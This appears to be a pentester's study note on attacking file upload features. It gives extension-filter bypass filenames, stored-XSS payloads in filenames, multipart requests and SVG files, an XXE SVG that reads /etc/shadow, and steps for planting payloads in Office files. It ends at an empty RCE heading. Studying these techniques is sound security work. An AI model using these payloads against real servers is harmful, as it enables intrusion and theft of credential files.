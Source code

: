 1. try to upload is a .`txt`, `.svg` and `.xml`
2. test file extension
3. test content type
4. test file content
5. test file size => [[DoS]]

#### Bypass extension filters
- `zseano.php/.jpg`
- `zseano.html%0d%0a.jpg`
- 
||apache|IIS|
|---|---|---|
|extension|PHP, pHp, pht|.asp, .aspx , .asa, .cer|
||||

#### vulns from file upload

##### stored [[XSS]]
- `filename="58832_300x300.jpg<svg onload=confirm()>"`
```upload
------WebKitFormBoundaryoMZOWnpiPkiDc0yV 
Content-Disposition: form-data; name="oauth_application[logo_image_file]"; filename="testing1.html" 
Content-Type: text/html 

‰PNG 
<script>alert(0)</script>
```

```svg
<?xml version="1.0" standalone="no"?>  
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">  
  
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">  
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>  
<script type="text/javascript">  
alert("XSS by BHARAT");  
</script>  
</svg>
```
##### [[XXE]]
1. SVG payload: save the following into file as an `.svg` file and upload it to the server
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE example [ <!ENTITY test SYSTEM "file:///etc/shadow"> ]> 
<svg width="500" height="500"> 
	<circle cx="50" cy="50" r="40" fill="blue" /> 
	<text font-size="16" x="0" y="16">&test;</text> 
</svg>
```
2. `.docx` , `.xlxs`, `.pptx` files
	1. unzip the document file![[Pasted image 20240129184215.png]]
	1. insert your payload into a `.xml` file 
	2. `cd example;zip -r new_example.docx *` 
##### [[RCE]]
